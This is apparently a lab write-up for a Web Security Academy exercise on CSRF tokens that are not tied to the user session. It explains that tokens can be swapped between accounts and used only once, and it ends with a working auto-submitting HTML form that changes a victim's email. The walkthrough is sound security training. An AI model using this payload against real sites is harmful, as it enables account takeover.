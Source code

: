 # CSRF where token is not tied to user session
> This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.
> 
> To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
> 
> You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
> 
> - `wiener:peter`
> - `carlos:montoya`

In this lab we'll login as wiener and carlos (two different browsers or using incognito mode) and we'll try to swap the CSRF tokens and check if they're bound to user or not. If not, we can just send our CSRF token to victim and email change should work.

![picture 5](/assets/images/471be39da47f5f184aa638fcbf8c23644b88b12c845bd4f85cdf924e62cf17bb.png)  

Success. Only thing that we have to pay attention to is that CSRF token can be used only once!

Let's deliver the payload to the victim. 

We have to refresh the page and use the fresh, unused token, or change the email using `wiener` or `carlos` and intercept the request, grab the token and drop the request afterwards.

```html
<form method="POST" action="https://0a9300a403fc868dc0d03bd1009d007c.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
<input type="hidden" name="csrf" value="zQwm5Fz16qcy4aZ80oCSRagNpkNYVnCT">

</form>
<script>
        document.forms[0].submit();
</script>
```
